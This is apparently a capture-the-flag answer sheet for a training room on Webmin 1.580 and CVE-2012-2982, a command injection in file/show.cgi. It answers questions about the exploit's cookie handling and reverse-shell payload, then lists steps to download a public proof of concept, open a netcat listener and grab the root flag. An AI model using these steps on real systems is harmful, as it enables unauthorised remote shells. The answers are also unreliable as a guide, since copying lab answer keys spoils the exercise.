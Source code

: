 # Intro PoC Scripting

- Please read the introduction description

	  no answer needed

- What is the target's platform and version number?

	- `webmin 1.580`

- What is the associated CVE for this platform?

	- `CVE-2012-2982`

- Which file does the vulnerability exist in?

	- `file/show.cgi`

- What program/command would be the most effective to use in this exploit?

	- `system shell`

- What's the original disclosure date of this exploit?

	- `September 6 2012`, It's written in the POC.
	

- What HTTP response code do we expect after the initial POST request?

	- `302`

- What does sid stand for and what is it's purpose?

	- `Session ID, authentication`

- In the check function, what is it doing to the cookies?

	- `format`

- In the second request of the check function, what method is piped into the command?

	- `rand_text_alphanumeric`

- Which HTTP response header allows us to send an authenticated POST request?

	- `Set-Cookie`

- Which is the correct method for formatting cookies in this example?

	- `any`

- What data type does the payload need to be?

	- `string`

- Why do we need to use "bash -c exec" instead of just "bash -i"

	- `replaces current shell process`

- What is the purpose of "<&1" in the payload function?

	- `redirects socket output stream to bash input stream`

- Run the program and listen for the shell. What is the /root/root.txt flag?

	- `wget https://raw.githubusercontent.com/cd6629/CVE-2012-2982-Python-PoC/master/web.py`
	- Change the IP address inside the file with yours.
	- Listen for a shell with `sudo nc -lnvp 53`
	- `python3 web.py <TARGET_IP>`
	- On the new shell `cat /root/root.txt`
	- `THM{****************}`

- No questions here

	  no answer needed

- Check out some of those links for more reading material.

	  no answer needed



